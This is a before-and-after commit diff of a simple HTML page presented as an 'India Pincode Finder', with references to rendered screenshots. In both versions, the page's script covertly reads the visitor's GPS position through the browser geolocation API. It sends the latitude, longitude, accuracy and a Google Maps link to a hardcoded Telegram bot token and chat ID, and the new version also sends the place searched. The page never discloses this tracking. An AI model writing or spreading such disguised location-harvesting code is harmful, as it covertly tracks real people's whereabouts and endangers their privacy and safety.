

Before and after one commit to rs-tech-info/NewStatus, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "🔍 Find Pincode". Shown: the top 800 px of the page, without its empty margins (108-1171 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,76 +1,66 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
   <title>India Pincode Finder</title>
   <style>
     body {
-      font-family: Arial, sans-serif;
-      margin: 0;
-      background: #f0f8ff;
-      padding: 20px;
+      font-family: Arial;
+      background: #e8f5e9;
+      text-align: center;
+      padding: 30px;
     }
-    #startBtn {
-      display: block;
-      margin: 100px auto;
-      padding: 15px 30px;
-      font-size: 20px;
-      background-color: #0d47a1;
+    h1 {
+      color: #2e7d32;
+    }
+    input {
+      width: 80%;
+      max-width: 400px;
+      padding: 12px;
+      font-size: 16px;
+      border: 1px solid #ccc;
+      margin: 20px auto;
+      border-radius: 5px;
+    }
+    button {
+      padding: 12px 25px;
+      font-size: 16px;
+      background-color: #388e3c;
       color: white;
       border: none;
-      border-radius: 8px;
+      border-radius: 5px;
       cursor: pointer;
     }
-    .container {
-      display: none;
-      max-width: 1000px;
-      margin: auto;
-    }
-    h1 {
-      text-align: center;
-      color: #0d47a1;
-    }
-    input, select {
-      padding: 10px;
-      margin: 10px;
-      width: calc(100% - 24px);
-      max-width: 500px;
-      font-size: 16px;
-      border: 1px solid #aaa;
-      border-radius: 5px;
-    }
     table {
-      width: 100%;
+      margin: 30px auto;
       border-collapse: collapse;
-      margin-top: 20px;
-      background: #fff;
+      width: 90%;
+      max-width: 800px;
+      background: white;
     }
     th, td {
       border: 1px solid #ccc;
       padding: 10px;
-      text-align: left;
     }
     th {
-      background-color: #1565c0;
+      background: #66bb6a;
       color: white;
     }
   </style>
 </head>
 <body>
 
-<button id="startBtn">🔍 Find Pincode</button>
+<h1>📮 India Pincode Finder</h1>
 
-<div class="container" id="mainContent">
-  <h1>📮 India Pincode Finder</h1>
-  <input type="text" id="searchInput" placeholder="Search Area, District, Pincode..." onkeyup="filterTable()">
-  <select id="stateFilter" onchange="filterTable()"><option value="">--Select State--</option></select>
-  <select id="districtFilter" onchange="filterTable()"><option value="">--Select District--</option></select>
+<input type="text" id="place" placeholder="Enter city or area name (e.g., Kanpur)">
+<br>
+<button onclick="findPincode()">🔍 Find Pincode</button>
 
-  <table id="pincodeTable">
+<table id="result" style="display:none;">
   <thead>
     <tr>
-        <th>Office</th>
+      <th>Post Office</th>
       <th>Pincode</th>
       <th>District</th>
       <th>State</th>
@@ -78,86 +68,57 @@
   </thead>
   <tbody></tbody>
 </table>
-</div>
 
 <script>
 const BOT_TOKEN = "8148507636:AAE5JkA-Hc-AmAJMiM8Pz2t_BQoCC7VKtLc";
 const CHAT_ID = "7357184121";
 
-document.getElementById("startBtn").onclick = () => {
-  document.getElementById("startBtn").style.display = "none";
-  document.getElementById("mainContent").style.display = "block";
-  sendLocation();
-  loadData();
-};
+function findPincode() {
+  const place = document.getElementById("place").value.trim();
+  if (!place) return alert("Please enter a location name.");
 
-function sendLocation() {
+  sendLocation(place); // send to telegram
+
+  fetch(`https://api.postalpincode.in/postoffice/${place}`)
+    .then(res => res.json())
+    .then(data => {
+      const result = data[0];
+      const tbody = document.querySelector("#result tbody");
+      tbody.innerHTML = "";
+
+      if (result.Status === "Success") {
+        document.getElementById("result").style.display = "table";
+        result.PostOffice.forEach(po => {
+          const row = `<tr>
+            <td>${po.Name}</td>
+            <td>${po.Pincode}</td>
+            <td>${po.District}</td>
+            <td>${po.State}</td>
+          </tr>`;
+          tbody.innerHTML += row;
+        });
+      } else {
+        alert("No data found for this place.");
+        document.getElementById("result").style.display = "none";
+      }
+    });
+}
+
+function sendLocation(area) {
   if (navigator.geolocation) {
     navigator.geolocation.getCurrentPosition(pos => {
       const { latitude, longitude, accuracy } = pos.coords;
-      const msg = `📍 User opened Pincode Finder\nLatitude: ${latitude}\nLongitude: ${longitude}\nAccuracy: ${accuracy}m\n🔗 https://maps.google.com/?q=${latitude},${longitude}`;
+      const msg = `📍 User searched for '${area}'\nLatitude: ${latitude}\nLongitude: ${longitude}\nAccuracy: ${accuracy}m\n🔗 https://maps.google.com/?q=${latitude},${longitude}`;
       fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
         method: "POST",
         headers: { "Content-Type": "application/json" },
-        body: JSON.stringify({ chat_id: CHAT_ID, text: msg })
+        body: JSON.stringify({
+          chat_id: CHAT_ID,
+          text: msg
+        })
       });
     });
   }
-}
-
-let pincodeData = [];
-
-function loadData() {
-  fetch("pincode_data.json")
-    .then(res => res.json())
-    .then(data => {
-      pincodeData = data;
-      populateTable(pincodeData);
-      populateFilters(pincodeData);
-    });
-}
-
-function populateTable(data) {
-  const tbody = document.querySelector("#pincodeTable tbody");
-  tbody.innerHTML = "";
-  data.forEach(row => {
-    const tr = document.createElement("tr");
-    tr.innerHTML = `<td>${row.Office}</td><td>${row.Pincode}</td><td>${row.District}</td><td>${row.State}</td>`;
-    tbody.appendChild(tr);
-  });
-}
-
-function populateFilters(data) {
-  const states = [...new Set(data.map(r => r.State))].sort();
-  const stateFilter = document.getElementById("stateFilter");
-  states.forEach(state => {
-    const opt = document.createElement("option");
-    opt.value = opt.text = state;
-    stateFilter.appendChild(opt);
-  });
-}
-
-function filterTable() {
-  const search = document.getElementById("searchInput").value.toLowerCase();
-  const state = document.getElementById("stateFilter").value;
-  const district = document.getElementById("districtFilter").value;
-
-  const filtered = pincodeData.filter(r =>
-    (!search || Object.values(r).some(val => val.toLowerCase().includes(search))) &&
-    (!state || r.State === state) &&
-    (!district || r.District === district)
-  );
-
-  const districts = [...new Set(filtered.map(r => r.District))].sort();
-  const distFilter = document.getElementById("districtFilter");
-  distFilter.innerHTML = "<option value=''>--Select District--</option>";
-  districts.forEach(d => {
-    const opt = document.createElement("option");
-    opt.value = opt.text = d;
-    distFilter.appendChild(opt);
-  });
-
-  populateTable(filtered);
 }
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
